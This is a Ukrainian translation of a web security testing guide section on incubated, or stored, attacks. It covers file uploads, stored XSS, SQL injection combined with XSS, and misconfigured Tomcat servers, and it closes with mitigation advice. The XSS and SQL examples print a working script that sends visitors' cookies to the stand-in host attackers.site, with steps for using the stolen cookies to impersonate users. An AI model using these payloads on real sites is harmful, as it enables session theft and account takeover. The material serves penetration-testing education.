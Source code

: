 # Резюме
Інкубаційне тестування, яке також часто називають постійними атаками, є складним методом тестування, для роботи якого потрібно більше однієї вразливості перевірки даних. Інкубовані вразливості зазвичай використовуються для здійснення атак "водопою" проти користувачів законних веб-додатків.

Інкубовані вразливості мають наступні характеристики:

- Вектор атаки повинен бути збережений в першу чергу, він повинен бути збережений на рівні збереження, і це сталося б лише в тому випадку, якщо була присутня слабка перевірка даних або дані надходили в систему через інший канал, такий як консоль адміністратора або безпосередньо через серверний пакетний процес.
- По-друге, як тільки вектор атаки був "відкликаний", вектор повинен був бути успішно виконаний. Наприклад, інкубована атака XSS вимагала б слабкої перевірки результатів, щоб скрипт був доставлений Клієнту у його виконуваній формі.

Використання деяких вразливостей або навіть функціональних можливостей веб-програми дозволить зловмиснику впровадити частину даних, які пізніше будуть вилучені нічого не підозрюючим користувачем або іншим компонентом системи, використовуючи деяку вразливість там.

У тесті на проникнення `інкубовані атаки` можуть бути використані для оцінки критичності певних помилок, використовуючи конкретну виявлену проблему безпеки для створення атаки на стороні клієнта, яка зазвичай буде використовуватися для одночасного впливу на велику кількість жертв (тобто на всіх користувачів, які переглядають сайт).

Цей тип асинхронної атаки охоплює широкий спектр векторів атаки, серед яких наступні:

- Компоненти завантаження файлів у веб-додатку, що дозволяють зловмиснику завантажувати пошкоджені медіафайли (зображення у форматі JPEG, що використовують `CVE-2004-0200`, зображення у форматі PNG, що використовують `CVE-2004-0597`, виконувані файли, сторінки сайту з активним компонентом і т. д.)
- Проблеми з міжсайтовим скриптингом в повідомленнях на загальнодоступних форумах (додаткові відомості див.в розділі тестування збережених міжсайтових скриптів). Зловмисник потенційно може зберігати шкідливі скрипти або код в репозиторії в серверній частині веб-додатки (наприклад, в базі даних), щоб цей скрипт/код виконувався одним з користувачів (кінцевими користувачами, адміністраторами і т.д.). Прикладом архетипічних інкубували атаки є використання уразливості міжсайтового скриптинга на форумі користувача, дошці оголошень або блозі для впровадження деякого коду JavaScript на вразливу сторінку, який в кінцевому підсумку буде відображений і виконаний в браузері користувача сайту – з використанням рівня довіри вихідного (уразливого) сайт в браузері користувача.
- Введення SQL / XPATH, що дозволяє зловмиснику завантажувати вміст у базу даних, яка згодом буде вилучена як частина активного вмісту веб-сторінки. Наприклад, якщо зловмисник може розмістити довільний JavaScript на дошці оголошень, щоб він виконувався користувачами, тоді він може отримати контроль над їх браузерами (наприклад, XSS-proxy).
- Неправильно налаштовані сервери, що дозволяють встановлювати пакети Java або подібні компоненти веб-сайту (наприклад, Tomcat або консолі веб-хостингу, такі як Plesk, cPanel, Helm тощо)
# Цілі тестування
- Визначте ін'єкції, які зберігаються і вимагають кроку відкликання збереженої ін'єкції.
- Зрозумійте, як може відбутися етап відкликання.
- Встановіть слухачі або активуйте крок відкликання, якщо це можливо.

## Як протестувати
## Тестування "чорного ящика"
### Приклад завантаження файлу
Перевірте тип вмісту, дозволений для завантаження у веб-програму, та отриману URL-адресу для завантаженого файлу. Завантажте файл, який використовуватиме компонент на локальній робочій станції користувача під час перегляду або завантаження Користувачем. Надішліть своїй жертві електронний лист або інший вид попередження, щоб заохотити його / її переглянути сторінку. Очікуваний результат полягає в тому, що експлойт буде запущений, коли користувач переглядає отриману сторінку або завантажує та виконує файл із надійного сайту.

## Приклад XSS на дошці оголошень
1. Introduce JavaScript code as the value for the vulnerable field, for instance `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a “listener” at attackers.site host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (document.cookie is included as part of the requested URL) will be sent to the attackers.site host, such as: GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1
4. Use cookies obtained to impersonate users at the vulnerable site.

## Приклад SQL-ін'єкції
Зазвичай у цьому наборі прикладів використовуються атаки XSS, які використовують вразливість ін'єкції SQL. Перше, що потрібно перевірити, - це наявність на цільовому сайті вразливості для ін'єкцій SQL. Це описано в розділі тестування на SQL-ін'єкцію. Для кожної вразливості ін'єкції SQL існує базовий набір обмежень, що описують тип запитів, які дозволено виконувати зловмиснику / тестувальнику пера.

Потім тестер повинен зіставити розроблені ним атаки XSS із записами, які йому дозволено вставляти.

Подібним чином, як і в попередньому прикладі XSS, використовуйте поле веб-сторінки, вразливе до проблем із введенням SQL, щоб змінити значення в базі даних, яке буде використовуватися додатком як Вхід для відображення на сайті без належної фільтрації (це буде комбінація SQL-ін'єкції та проблеми з XSS). Наприклад, припустимо, що в базі даних є таблиця нижнього колонтитула з усіма нижніми колонтитулами для сторінок веб-сайту, включаючи поле сповіщення з юридичним повідомленням, яке з'являється внизу кожної веб-сторінки. Ви можете використовувати наступний запит, щоб ввести код JavaScript у поле сповіщення в таблиці нижнього колонтитула в базі даних.
```sql
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
````
Тепер кожен користувач, який переглядає сайт, буде мовчки відправляти свої файли cookie зловмисникам.site.

## Неправильно налаштований сервер
Деякі веб-сервери надають інтерфейс адміністрування, який може дозволити зловмиснику завантажувати на сайт Активні компоненти на свій вибір. Це може бути у випадку з сервером Apache Tomcat, який не застосовує надійні облікові дані для доступу до свого менеджера веб-додатків (або якщо тестери pen змогли отримати дійсні облікові дані для модуля адміністрування іншими способами).

У цьому випадку може бути завантажений файл WAR і на сайті розгорнуто нову веб-програму, яка не тільки дозволить тестувальнику пера виконувати код за своїм вибором локально на сервері, але і встановити додаток на довіреному сайті, до якого потім зможуть отримати доступ звичайні користувачі сайту (більшість ймовірно, з більш високим ступенем довіри, ніж при доступі до іншого сайту).

Також має бути очевидно, що можливість змінювати вміст веб-сторінки на сервері за допомогою будь-яких недоліків, які можуть бути використані на хості, що дасть зловмиснику права на запис у webroot, також буде корисна для впровадження такої інкубували атаки на сторінки веб-сервера (насправді, це відома інфекція -метод розповсюдження для деяких черв'яків веб-сервера).

## Тестування Grey Box
Методи тестування "сірого ящика" або "білого ящика" будуть такими ж, як обговорювалося раніше.

- Перевірка правильності вхідних даних є ключовим фактором для усунення цієї вразливості. Якщо інші системи на підприємстві використовують той самий рівень збереження, вони можуть мати слабку перевірку вхідних даних, і дані можуть зберігатися через задні двері.
- Для боротьби з проблемою бекдора при атаках на стороні клієнта також необхідно використовувати перевірку вихідних даних, щоб зіпсовані дані були закодовані перед відображенням клієнту і, отже, не виконувалися.